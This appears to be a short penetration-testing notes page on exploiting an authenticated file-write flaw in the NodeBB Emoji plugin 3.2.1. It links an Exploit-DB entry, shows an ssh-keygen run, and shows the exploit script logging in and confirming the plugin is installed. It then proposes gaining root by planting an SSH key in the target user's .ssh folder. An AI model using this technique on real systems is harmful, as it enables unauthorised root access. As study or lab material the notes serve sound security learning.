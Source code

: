 # Authenticated NodeBB Plugin Emoji 3.2.1

If we have valid credentials for the NodeBB portal we could try to see if the portal is running this plugin that we could use to write on files.&#x20;

{% embed url="https://www.exploit-db.com/exploits/49813" %}

There is multiple ways to get root here but the easieset is place an id_Rsa key into the authenticated_hosts file in the .ssh folder of the users.&#x20;

```
ssh-keygen -t rsa -N '' -f ~/.ssh/id_rsa
Generating public/private rsa key pair.
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:77ufSzZu/0b3gdzFwZOzihQewkazcg5T4qZ19is9l2M kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|       .o+    . .|
|      . o+oo   * |
|       B.=o o  .=|
|      + O .o   .o|
|     .  S...o + .|
|         ....+.oo|
|         ..++E .+|
|         ..+=o. o|
|          +==o.o.|
+----[SHA256]-----+

```

```
python3 /usr/share/exploitdb/exploits/multiple/webapps/49813.py 
[+] Login successful
[+] Emoji plugin is installed

```

![](../../../../.gitbook/assets/2022-08-21\_15-44.png)

